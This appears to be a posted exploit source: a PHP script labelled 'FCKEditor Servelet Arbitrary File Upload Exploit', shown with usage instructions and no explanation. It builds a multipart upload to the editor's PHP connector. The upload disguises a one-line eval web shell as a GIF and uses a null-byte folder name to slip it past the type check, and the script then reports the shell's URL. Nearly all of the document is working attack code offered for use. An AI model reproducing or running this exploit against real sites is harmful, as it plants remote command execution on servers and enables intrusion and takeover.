 EXP源码

```php
<?php
error_reporting(0);
set_time_limit(0);
ini_set("default_socket_timeout", 5);
define(STDIN, fopen("php://stdin", "r"));
$match = array();
function http_send($host, $packet)
{
$sock = fsockopen($host, 80);
while (!$sock)
{
print "\n[-] No response from {$host}:80 Trying again...";
$sock = fsockopen($host, 80);
}
fputs($sock, $packet);
while (!feof($sock)) $resp .= fread($sock, 1024);
fclose($sock);
print $resp;
return $resp;
}
function connector_response($html)
{
global $match;
return (preg_match("/OnUploadCompleted\((\d),\"(.*)\"\)/", $html, $match) && in_array($match[1], array(0, 201)));
}
print "\n+------------------------------------------------------------------+";
print "\n| FCKEditor Servelet Arbitrary File Upload Exploit |";
print "\n+------------------------------------------------------------------+\n";
if ($argc < 3)
{
print "\nUsage......: php $argv[0] host path\n";
print "\nExample....: php $argv[0] localhost /\n";
print "\nExample....: php $argv[0] localhost /FCKEditor/\n";
die();
}
$host = $argv[1];
$path = ereg_replace("(/){2,}", "/", $argv[2]);
$filename = "fvck.gif";
$foldername = "fuck.php%00.gif";
$connector = "editor/filemanager/connectors/php/connector.php";
$payload = "-----------------------------265001916915724\r\n";
$payload .= "Content-Disposition: form-data; name=\"NewFile\"; filename=\"{$filename}\"\r\n";
$payload .= "Content-Type: image/jpeg\r\n\r\n";
$payload .= 'GIF89a'."\r\n".'<?php eval($_POST[cmd]) ?>'."\n";
$payload .= "-----------------------------265001916915724--\r\n";
$packet = "POST {$path}{$connector}?Command=FileUpload&Type=Image&CurrentFolder=".$foldername." HTTP/1.0\r\n";//print $packet;
$packet .= "Host: {$host}\r\n";
$packet .= "Content-Type: multipart/form-data; boundary=---------------------------265001916915724\r\n";
$packet .= "Content-Length: ".strlen($payload)."\r\n";
$packet .= "Connection: close\r\n\r\n";
$packet .= $payload;
print $packet;
if (!connector_response(http_send($host, $packet))) die("\n[-] Upload failed!\n");
else print "\n[-] Job done! try http://${host}/$match[2] \n";
?>
```
